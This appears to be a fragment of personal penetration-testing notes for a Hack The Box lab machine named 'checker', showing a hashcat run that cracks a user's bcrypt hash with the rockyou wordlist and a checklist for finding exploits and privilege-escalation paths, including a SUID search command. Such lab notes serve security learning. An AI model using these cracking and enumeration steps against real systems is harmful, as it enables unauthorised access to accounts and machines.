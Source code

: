 ```
	- run the hashes through hashcat
		- and we get bob's hash to crack - p/w cheerleader
		- This is bob's password for teampass
	```bash
	 kali@kali  ~/htb/checker  hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-penryn-QEMU Virtual CPU version 2.5+, 2822/5709 MB (1024 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy:cheerleader
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => 

```
	- bookstack login is under password side tab
	- 

- search for exploits, RCEs, etc on service's versions running on those open ports
	- SearchSploit
	- Metaspolit
	- document

- Foothold - Look around and check things out for a second
	- search local directory
	- search root directory
	- sudo -l
	- look for exploitable binary's
		- `$ find / -perm /4000 2>/dev/null'
		- 

